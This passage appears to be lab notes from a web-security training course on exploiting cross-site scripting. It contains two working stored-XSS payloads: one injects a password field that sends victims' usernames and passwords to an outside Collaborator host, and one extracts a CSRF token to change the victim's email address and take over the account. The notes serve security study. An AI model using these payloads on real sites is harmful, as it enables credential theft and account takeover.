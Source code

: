 ```JavaScript
<input name=username id=username> 
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{ method:'POST', 
mode: 'no-cors',
body:username.value+':'+this.value 
});">
```

   This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server.
4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's username and password in the POST body.
6. Use the credentials to log in as the victim user


### Exploiting XSS to perform CSRF
Some websites allow logged-in users to change their email address without re-entering their password. 
If you've found an XSS vulnerability
=>
- you can make it trigger this functionality to change the victim's email address to one that you control
- then trigger a password reset to gain access to the account.

This type of exploit is typically referred to as [cross-site request forgery](https://portswigger.net/web-security/csrf) ([CSRF](https://portswigger.net/web-security/csrf)):
which is slightly confusing because CSRF can also occur as a standalone vulnerability. When CSRF occurs as a standalone vulnerability:
it can be patched using strategies like anti-CSRF tokens

=>
- Log in using the credentials provided. On your user account page, notice the function for updating your email address.
- If you view the source for the page, you'll see the following information:
    - You need to issue a POST request to `/my-account/change-email`, with a parameter called `email`.
    - There's an anti-CSRF token in a hidden input called `token`.This means your exploit will need to load the user account page, extract the CSRF token, and then use the token to change the victim's email address.
- Submit the following payload in a blog comment:
  
```JavaScript
<script> 
	var req = new XMLHttpRequest(); 
	req.onload = handleResponse; 
	req.open('get','/my-account',true); 
	req.send(); 
	function handleResponse() { 
		var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1]; 
		var changeReq = new XMLHttpRequest(); 
		changeReq.open('post', '/my-account/change-email', true); 
		changeReq.send('csrf='+token+'&email=test@test.com') }; 
</script>
```
  This will make anyone who views the comment issue a POST request to change their email address to `test@test.com`

